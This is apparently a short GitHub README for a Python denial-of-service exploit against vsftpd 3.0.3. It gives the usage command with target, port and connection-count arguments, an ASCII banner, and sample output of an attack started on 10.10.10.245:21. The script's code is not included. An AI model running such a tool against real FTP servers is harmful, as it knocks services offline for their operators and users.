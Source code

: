 # vsftpd-3.0.3-DoS
vsftpd 3.0.3 Exploit - Remote Denial of Service by [xynmaps](https://www.exploit-db.com/?author=10841)

## Usage
```
python3 vsftpd303-dos.py <TARGET> <PORT(DEFAULT:21)> <MAX_CONNS(DEFAULT:50)>
```

```
._________________.
|     VS-FTPD     |
|      D o S      |
|_________________|
|By XYN/DUMP/NSKB3|
|_|_____________|_|
|_|_|_|_____|_|_|_|
|_|_|_|_|_|_|_|_|_|


[!] Testing if 10.10.10.245:21 is open
[+] Port 21 open, starting attack...
[+] Attack started on 10.10.10.245:21!

```

